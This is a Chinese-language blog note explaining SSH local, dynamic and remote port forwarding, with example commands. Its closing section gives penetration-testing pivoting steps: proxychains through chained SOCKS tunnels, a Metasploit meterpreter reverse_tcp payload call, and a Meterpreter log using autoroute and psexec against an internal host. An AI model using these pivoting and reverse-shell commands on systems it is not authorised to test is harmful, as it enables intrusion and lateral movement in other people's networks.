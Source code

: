 ```yaml
---
title: 端口转发之SSH隧道
date: 2018-03-29 15:20:00
categories:
   - 技术相关
tags:
   - 端口转发
   - SSH隧道
   - 笔记
---
```

<!-- more -->

## 0x01 ssh隧道有3种类型

    动态端口转发（Socks 代理）
    本地端口转发
    远程端口转发


## 0x01 本地端口转发

通过SSH隧道，将一个远端机器能够访问到的地址和端口，映射为一个本地的端口。

已知主机A可以连接主机B，但无法连接主机C。A主机需要访问C主机的VNC服务（5900端口）

    host1 : 本地主机
    host2 : 远程主机（目的主机）
    host3 : 

    host1  <-> host2  (都不通)
    host3同时连通前面两台主机
    host1  -> host2   (最终目的)

想法就是，通过host3，将host1连上host2

我们在host1执行下面的命令：

	$ ssh -L 2121:host2:21 host3
    
命令中的L参数一共接受三个值，分别是"本地端口:目标主机:目标主机端口"，它们之间用冒号分隔。

这条命令的意思，就是指定SSH绑定本地端口2121，然后指定host3将所有的数据，

转发到目标主机host2的21端口（假定host2运行FTP，默认端口为21）。

这样一来，在host1连接本地的2121端口，就等于连上了host2的21端口。

	$ ftp localhost:2121
	$ ssh -p 2121 localhost   (21端口改为22)

优点

	无需设置代理
    
缺点

	每个服务都需要配置不同的端口转发

	
	
## 0x02 动态端口转发
既然SSH可以传送数据，那么我们可以让那些不加密的网络连接，全部改走SSH连接，从而提高安全性

动态端口允许通过配置一个本地端口，把通过隧道到数据转发到远端的所有地址。

本地的应用程序需要使用Socks协议与本地端口通讯。此时SSH充当Socks代理服务器的角色。

假定我们要让8080端口的数据，都通过SSH传向远程主机：

	$ ssh -D 8080 user@host

SSH会建立一个socket，去监听本地的8080端口。一旦有数据传向那个端口，就自动把它转移到

SSH连接上面，发往远程主机。

可以想象，如果8080端口原来是一个不加密端口，现在将变成一个加密端口。

优点

	配置一个代理服务就可以访问远端机器和与其所在子网络的所有服务
缺点

	应用程序需要额外配置SOCKS代理，若应用程序不支持代理配置则无法使用


## 0x03 远程端口转发
远程端口转发用于某些单向阻隔的内网环境，比如说NAT，网络防火墙。
在NAT设备之后的内网主机可以直接访问公网主机，但外网主机却无法访问内网主机的服务。
如果内网主机向外网主机建立一个远程转发端口，就可以让外网主机通过该端口访问该内网主机的服务。
可以把这个内网主机理解为“内应”和“开门者”。

	host1 ： 外网机器
	host2 ： 目的主机
	host3 ： 内网机器
	host3  -> host1  (通)
	host1  -> host3  (不通)
	host1  -> host2  (最终目的)

解决办法是，既然host3可以连host1，那么就从host3上建立与host1的SSH连接，然后在host1上使用这条连接就可以了

在host3执行下面的命令：

	$ ssh -R 2121:host2:22 root@host1
	-R : "远程主机端口:目标主机:目标主机端口"。

host1监听它自己的2121端口，然后将所有数据经由host3，转发到host2的21端口。
由于对于host3来说，host1是远程主机，所以这种情况就被称为"远程端口绑定"。
在host1就可以连接host2了：

	$ ssh localhost:2121

如果host3是目的主机的话，即源主机是目的主机，我们的目的是host1->host3 (通)
则：
	在host3上执行： ssh -NfR 2121:localhost:22 user@host1 -p 22
	将host3的22端口和host1的2121端口绑定，相当于远程端口映射
	在host1就可以连接host3了：

		$ ssh localhost -p 2121

	也可以在host2上：

		$ ssh host1 -p 2121
	
优点

	可以穿越防火墙和NAT设备
缺点

	每个服务都需要配置不同的端口转发

	
如何禁止端口转发

设置ssh服务配置文件/etc/ssh/sshd_config

	AllowTcpForwarding no


## 0x04 简而言之
	http://staff.washington.edu/corey/fw/ssh-port-forwarding.html

	本地访问127.0.0.1:port1就是host:port2(用的更多)
	ssh -CfNg -L port1:127.0.0.1:port2 user@host    #本地转发

	访问host:port2就是访问127.0.0.1:port1
	ssh -CfNg -R port2:127.0.0.1:port1 user@host    #远程转发

	可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口
	ssh -qTfnN -L port:dmz_host:hostport -l user remote_ip   #正向隧道，监听本地port

	可以将dmz_host的hostport端口转发到remote_ip的port端口
	ssh -qTfnN -R port:dmz_host:hostport -l user remote_ip   #反向隧道，用于内网穿透防火墙限制之类

	
## 0x05 SSH 穿透

	ssh -D 127.0.0.1:1080 -p 22 user@IP 
	Add socks4 127.0.0.1 1080 in /etc/proxychains.conf 
	proxychains commands target 

SSH 穿透从一个网络到另一个网络

	ssh -D 127.0.0.1:1080 -p 22 user1@IP1 
	Add socks4 127.0.0.1 1080 in /etc/proxychains.conf 
	proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2 
	Add socks4 127.0.0.1 1081 in /etc/proxychains.conf 
	proxychains commands target 

使用 metasploit 进行穿透

	route add X.X.X.X 255.255.255.0 1 
	use auxiliary/server/socks4a 
	run 
	proxychains msfcli windows/* PAYLOAD=windows/meterpreter/reverse_tcp LHOST=IP LPORT=443 RHOST=IP E

或者

	# http://www.offensive-security.com/metasploit-unleashed/pivoting/
	meterpreter > ipconfig 
	IP Address  : 10.1.13.3 
	meterpreter > run autoroute -s 10.1.13.0/24 
	meterpreter > run autoroute -p 
	10.1.13.0          255.255.255.0      Session 1 
	meterpreter > Ctrl+Z 
	msf auxiliary(tcp) > use exploit/windows/smb/psexec 
	msf exploit(psexec) > set RHOST 10.1.13.2 
	msf exploit(psexec) > exploit 
	meterpreter > ipconfig 
	IP Address  : 10.1.13.2 
	

扩展：

	通过VPS SSH隧道使用本地msf
	https://evi1cg.me/archives/Port_Forward_using_VPS_SSH_Tunnel.html


from :
	三种不同类型的ssh隧道
	http://hetaoo.iteye.com/blog/2299123
	ssh用法及命令
	http://blog.csdn.net/pipisorry/article/details/52269785
	ssh隧道建立
	http://blog.csdn.net/yuanchao99/article/details/72877586
    xxxx
    https://xianzhi.aliyun.com/forum/topic/142
